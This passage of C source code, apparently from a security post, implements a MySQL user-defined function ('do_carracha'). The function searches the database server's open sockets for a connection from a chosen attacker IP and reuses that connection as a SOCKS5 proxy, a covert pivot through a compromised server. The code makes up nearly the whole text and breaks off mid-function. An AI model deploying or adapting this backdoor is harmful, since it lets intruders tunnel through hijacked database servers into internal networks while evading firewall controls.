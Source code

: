 ```c

void *worker(int fd) {
	int inet_fd = -1;
	int command = 0;
	unsigned short int p = 0;
	socks5_invitation(fd);
	socks5_auth(fd);
	command = socks5_command(fd);
	if (command == IP) {
		char *ip = NULL;
		ip = socks5_ip_read(fd);
		p = socks5_read_port(fd);
		inet_fd = app_connect(IP, (void *)ip, ntohs(p), fd);
		if (inet_fd == -1) {
			exit(0);
		}
		socks5_ip_send_response(fd, ip, p);
		free(ip);
    } 

	app_socket_pipe(inet_fd, fd);
	close(inet_fd);
	exit(0);
}





void proxy(int socks) {
	char a[1];
	write(socks, "And this is my Child\n", strlen("And this is my Child\n") + 1);
	read(socks, a, sizeof(a)); // 
	worker(socks);
	return;
}
 
int do_carracha(UDF_INIT *initid, UDF_ARGS *args, char *is_null, char *error)
{
    if (args->arg_count != 1)
        return(0);
	
	int fd, i, ret, pid;
 	struct sockaddr_storage client_addr;
	socklen_t addr_size = sizeof(client_addr);

    fd = socket(AF_UNIX, SOCK_STREAM, 0);
	close(fd);
	for (i = 3; i < fd; i++) {
		ret = getpeername(i, (struct sockaddr *)&client_addr, &addr_size);
			if (ret == 0) {
				char ip[INET6_ADDRSTRLEN];
			
				if (client_addr.ss_family == AF_INET) {
					struct sockaddr_in *s = (struct sockaddr_in *)&client_addr;
					inet_ntop(AF_INET, &s->sin_addr, ip, sizeof(ip));
				}
				else if (client_addr.ss_family == AF_INET6) {
					struct sockaddr_in6 *s = (struct sockaddr_in6 *)&client_addr;
					inet_ntop(AF_INET6, &s->sin6_addr, ip, sizeof(ip));
				}

				if (strstr(ip, "X.X.X.X")) {
```
